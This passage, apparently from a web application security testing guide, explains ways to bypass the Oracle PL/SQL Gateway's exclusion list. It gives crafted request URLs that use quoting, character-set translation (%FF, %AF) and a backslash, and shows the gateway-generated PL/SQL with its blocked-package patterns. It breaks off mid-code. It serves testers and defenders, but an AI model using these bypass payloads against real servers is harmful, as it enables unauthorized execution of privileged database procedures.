  ```
 http://www.example.com/pls/dad/"SYS".PACKAGE.PROC
 ```


**Bypassing the Exclusion List - Method 4**<br>
Depending upon the character set in use on the web server and on the database server, some characters are translated. Thus, depending upon the character sets in use, the "ÿ" character (0xFF) might be converted to a "Y" at the database server. Another character that is often converted to an upper case "Y" is the Macron character - 0xAF.  This may allow an attacker to bypass the exclusion list:

 ```
 http://www.example.com/pls/dad/S%FFS.PACKAGE.PROC
 http://www.example.com/pls/dad/S%AFS.PACKAGE.PROC
 ```


**Bypassing the Exclusion List - Method 5**<br>
Some versions of the PL/SQL Gateway allow the exclusion list to be bypassed with a backslash - 0x5C:

 ```
 http://www.example.com/pls/dad/%5CSYS.PACKAGE.PROC
 ```


**Bypassing the Exclusion List - Method 6**<br>
This is the most complex method of bypassing the exclusion list and is the most recently patched method. If we were to request the following

 ```
 http://www.example.com/pls/dad/foo.bar?xyz=123
 ```

the application server would execute the following at the database server:
```
 1 declare
 2  rc__ number;
 3  start_time__ binary_integer;
 4  simple_list__ owa_util.vc_arr;
 5  complex_list__ owa_util.vc_arr;
 6 begin
 7  start_time__ := dbms_utility.get_time;
 8  owa.init_cgi_env(:n__,:nm__,:v__);
 9  htp.HTBUF_LEN := 255;
 10  null;
 11  null;
 12  simple_list__(1) := 'sys.%';
 13  simple_list__(2) := 'dbms\_%';
 14  simple_list__(3) := 'utl\_%';
 15  simple_list__(4) := 'owa\_%';
 16  simple_list__(5) := 'owa.%';
 17  simple_list__(6) := 'htp.%';
 18  simple_list__(7) := 'htf.%';
 19  if ((owa_match.match_pattern('foo.bar', simple_list__, complex_list__, true))) then
 20   rc__ := 2;
 21  else
 22   null;
 23   orasso.wpg_session.init();
 24   foo.bar(XYZ=>:XYZ);
 25   if (wpg_docload.is_file_download) then
 26    rc__ := 1;
 27    wpg_docload.get_download_file(:doc_info);
 28    orasso.wpg_session.deinit();
 29    null;
 30    null;
 31    commit;
 32   else
 33    rc__ := 0;
 34    orasso.wpg_session.deinit();
```